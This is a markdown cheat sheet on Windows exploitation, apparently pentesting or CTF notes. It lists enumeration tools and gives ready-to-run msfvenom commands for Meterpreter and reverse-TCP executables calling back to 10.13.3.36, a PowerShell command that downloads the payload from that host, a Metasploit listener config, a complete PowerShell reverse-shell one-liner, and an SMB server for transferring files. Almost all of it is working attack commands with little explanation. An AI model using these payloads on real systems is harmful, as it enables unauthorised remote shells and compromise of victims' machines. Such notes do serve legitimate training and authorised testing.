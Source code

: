 # Windows Exploitation

## Enumerate Windows Machines
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

## Reverse Shells

### Genrate A Meterpreter Shell

* Generate shell
    * `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.3.36 LPORT=4445 -f exe -o reverse.exe`
* Download and execute it on the Windows Machine
    * `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.3.36:80/reverse.exe','reverse.exe')"`
* Metasploit listener
```ruby
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.13.3.36 
set LPORT 4445 
run
```

### Reverse TCP shell

* Generate the shell
    * `msfvenom -p windows/shell_reverse_tcp LHOST=10.13.3.36 LPORT=4445 -e x86/shikata_ga_nai -f exe -o reverse.exe`
* Download and execute it on the Windows Machine
    * `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

## Use SMB Server To Transfer Files To Windows

* On Kali:
    `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
* On Windows:
    `copy \\10.13.3.36\kali\filename C:\someFile`
